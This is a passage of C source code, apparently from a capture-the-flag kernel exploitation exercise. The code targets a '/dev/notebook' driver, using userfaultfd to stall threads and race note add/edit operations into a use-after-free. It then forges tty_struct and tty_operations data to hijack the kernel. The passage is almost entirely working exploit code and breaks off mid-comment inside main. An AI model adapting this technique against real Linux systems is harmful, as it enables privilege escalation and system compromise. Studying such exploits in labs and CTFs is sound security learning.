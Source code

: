 ```c

ssize_t noteRead(int idx, void *buf)
{
    return read(note_fd, buf, idx);
}

ssize_t noteWrite(int idx, void *buf)
{
    return write(note_fd, buf, idx);
}

void* fixSizeByAdd(void *args)
{
    sem_wait(&evil_add_sem);
    noteAdd(0, 0x60, uffd_buf);
}

void* constructUAF(void * args)
{
    sem_wait(&evil_edit_sem);
    noteEdit(0, 0, uffd_buf);
}

int main(int argc, char **argv, char **envp)
{
    struct KernelNotebook kernel_notebook[NOTE_NUM];
    struct tty_operations fake_tty_ops;
    pthread_t uffd_monitor_thread, add_fix_size_thread, edit_uaf_thread;
    size_t fake_tty_struct_data[0x100], tty_ops, orig_tty_struct_data[0x100];
    size_t tty_struct_addr, fake_tty_ops_addr;
    int tty_fd;

    /* fundamental infrastructure */
    saveStatus();
    bindCore(0);

    sem_init(&evil_add_sem, 0, 0);
    sem_init(&evil_edit_sem, 0, 0);

    /* open dev */
    note_fd = open("/dev/notebook", O_RDWR);
    if (note_fd < 0) {
        errExit("failed to open /dev/notebook!");
    }

    /* register userfaultfd */
    puts("[*] register userfaultfd...");

    uffd_buf = (char *) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, 
                            MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    registerUserFaultFdForThreadStucking(&uffd_monitor_thread, uffd_buf,0x1000);

    /* get a tty-size object */
    puts("[*] allocating tty_struct-size object...");

    noteAdd(0, 0x10, "arttnba3rat3bant");
    noteEdit(0, TTY_STRUCT_SIZE, temp_page);

    /**
     * construct UAF by userfaultfd.
     * Note that we need to sleep(1) there to wait for the kfree() to be done,
     * so that the UAF object can be regetted later.
    */
```